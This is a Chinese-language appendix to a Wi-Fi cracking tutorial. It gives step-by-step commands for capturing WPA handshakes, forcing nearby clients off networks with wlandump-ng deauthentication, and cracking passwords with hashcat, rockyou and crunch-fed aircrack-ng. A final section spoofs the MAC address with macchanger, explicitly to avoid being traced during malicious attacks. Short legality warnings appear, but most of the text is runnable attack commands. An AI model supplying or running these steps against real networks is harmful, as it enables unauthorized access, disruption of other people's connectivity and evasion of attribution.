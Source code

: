 # 附录
在本教程初次发布之后，来自互联网各个角落的一些人提出了意见和建议。 在努力保持原始教程简短而优美的基础上，我在这里介绍了有关他们精彩建议的信息，并添加了我自己的一些。 在这里，你可以找到以下信息：

- 在 MacOS/OSX 上破解 WI-FI
- 利用 `landump-ng` 抓取 handshake 
- 利用 `crunch` 生成单词列表
- 利用 `macchanger` 保护你的身份

## 在 MacOS/OSX 上破解 WI-FI

非常感谢 [@harshpatel991](https://github.com/harshpatel991) 提供本指南。下面会介绍如何使用 MacOS/OSX 自带的工具抓取 4-way handshake，然后再通过 naive-hashcat 来找出一个 WPA/WPA2 无线网络的密码。 此方法已在 OSX 10.10 和 10.12 上进行测试，不过也可能适用于其他版本。 像主教程一样，我们假设你有一个支持 [监测模式](https://en.wikipedia.org/wiki/Monitor_mode) 的[无线网卡](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)。我们在 2012 年上半年和 2015 年中期这两款 MacBook Pro 上进行了测试，并取得了巨大的成功。

### 无线诊断工具

幸运的是，OSX 配备了一套无线诊断工具。 要打开它们，请在按住键盘上 option 键的同时，点击菜单栏中的 Wi-Fi 图标。 然后选择“打开无线诊断...”

### 测定目标网络信道

打开无线诊断程序，单击**窗口** > **扫描**。 找到目标网络，注意其信道和宽度。

### 抓取一个 4-way handshake 

1. 打开无线诊断，点击**窗口** > **嗅探器**。选择你在上一步中找到的信道和宽度。
2. 现在，你需要等待有设备连接到目标网络。如果你正在自己的网络上测试（你应该），将一个无线设备重新连接就可以抓取 handshake 。
3. 当你感觉已经成功抓取 handshake 时，点击停止。
4. 根据你的操作系统版本，抓取的 `.wcap` 文件将被保存到桌面或`/var/tmp/`。
5. 将抓取的文件上传到 https://hashcat.net/cap2hccapx/ 就可以将其转换为 `.hccapx` 文件。 如果你成功的抓到了 handshake ，站点将开始下载一个`.hccapx`文件。 否则将不会提示下载。

### 利用 `naive-hashcat` 破解密码

```bash
# clone naive-hashcat
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# 在 MacOS/OSX 上构建源代码
./build-hashcat-osx.sh

# 下载 134MB rockyou字典文件
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

最后，运行 `naive-hashcat.sh`。将 `handshake.hccapx` 名称改成你从 [hashcat.net](https://hashcat.net/cap2hccapx/) 下载的文件名称。`cracked.pot`是输出文件名称。

```
HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

再次感谢 [@harshpatel991](https://github.com/harshpatel991)，以及 [phillips321](http://www.phillips321.co.uk/) 关于如何在 OSX 上构建 hashcat 的[帖子](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/)。

## 使用 `wlandump-ng` 抓取 handshake 

[@enilfodne](https://github.com/enilfodne) 提到 hachcat 社区有一个[更棒的工具](https://github.com/brannondorsey/wifi-cracking/issues/15)可以抓取 WPA 的 4-way handshakes。它是 hashcat 工具包的一部分，叫 [hcxtools](https://github.com/ZerBea/hcxtools) ，由 [ZerBea](https://github.com/ZerBea) 开发，名声已经超过了 `airdump-ng`。`wlandump-ng` 允许你一次性从每个附近的网络上全面抓取 handshake 信息，跳过 Wi-Fi 信道，以增加收集。


```bash
# clone hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# 构建并且安装
# 你将可能需要apt来安装需要的依赖
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# 覆盖所有失去从附近接入点失去连接的客户端并且监听重新连接
# 将wlan0替换成你的无线设备名称
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# 一旦你获得了抓取的文件，你可以利用以下命令将其转换成hashcat抓取格式
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng` 命令行参数（使用 `h` 标志来获得完整列表）：

- `-c 1`：从通道 1 开始的 2.4Ghz 范围（将转到13）
- `-t 60`：每个通道停留 60s（实验值较低，默认值为 5）
- `-d 100`：发送 deauth 每 100 个信标帧
- `-D 10`：每隔 10 个信标帧发送解析数据包
- `-m 512`：内部缓冲区大小，对于低资源机器使用 512
- `-b`：激活信号到最后 10 个探测请求
- `-r`：如果循环在通道 1 上，则重置 deauthentication / detachosciation 计数器
- `-s 20`：显示 20 条状态行

**警告：** 在大多数地方使用这个是不合法的。更多信息请参考[这里](https://github.com/ZerBea/hcxtools#warning)。

`wlandump-ng` 也提供了在被动模式下运行的选项，这时不会发送任何 deauth/disassociation 数据帧。 如果担心会影响到周围人使用网络（你应该是）时建议你使用这种模式。代价是你获得的 handshake 会少得多，不过用这种方法抓取不会被人察觉。

```bash
# 在被动模式下使用默认设置运行
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## 使用 `crunch` 生成单词列表

`crunch` 是使用给定字符串或模式的组合生成单词列表的工具。 我们可以使用 crunch 来即时生成密码列表，再通过管道传递给 `aircrack-ng` 而不必将单词列表保存到磁盘。


```bash
# 安装crunch
sudo apt-get install crunch
```

要想知道如何运行 crunch，可以从命令行运行（一旦开始发送密码，就可以按 `ctrl-c`）：

```bash
# 语法 8 8 是生成密码的最小长度和最大长度
# 01234567890 是组合/排列构成密码的一组字符
crunch 8 8 0123456789
```

```
Crunch 现在将生成以下数据量：900000000字节
858 MB
0 GB
0 TB
0 PB
Crunch 现在将生成以下行数：100000000
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

我们可以将 `crunch` 的输出作为 `aircrack-ng` 的输入，使用它生成的密码作为我们的单词列表。 这里我们使用 `crunch` 特殊规则字符 `%` 来表示数字。 此命令尝试破解10位电话号码的 WPA 密码（使用 crunch 即时生成的 102GB 的号码）：

```bash
# 我们也可以使用 -t "@^%,"  使用模式 '@' 替换小写 ',' － 替换大写
# '%' －替换数字以及 '^' － 替换特殊字符
# *************** 不要忘记最后的 '-'
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

感谢 [@hiteshnayak305](https://github.com/hiteshnayak305) 介绍 `crunch` 并将此次更新作为 [PR](https://github.com/brannondorsey/wifi-cracking/pull/17)。

## 利用 `macchanger` 保护你的个人信息

每当您使用 Wi-Fi 进行任何远程恶意攻击时，最好将你 Wi-Fi 设备的 MAC 地址进行伪装，避免被人通过网络流量里的设备信息找到你。

这是利用 `macchanger` 的一个小尝试：

```bash
# 下载 MAC changer
sudo apt-get install macchanger

# 关闭设备
sudo ifconfig wlan0 down

# 改变 mac
# -A 为有效的供应商分配一个随机的MAC w/a
# -r 让它真正随机
# -p 将其恢复到原始的硬件MAC
sudo macchanger -A wlan0

# 启动设备
sudo ifconfig wlan0 up
```

如果你有多张无线网卡，最好把所有的设备都改一遍。 或者当你尝试抓取 handshake 时干脆把不用的设备都关掉，尽可能少地留下痕迹。 请注意，重启后伪装的设备信息会恢复。
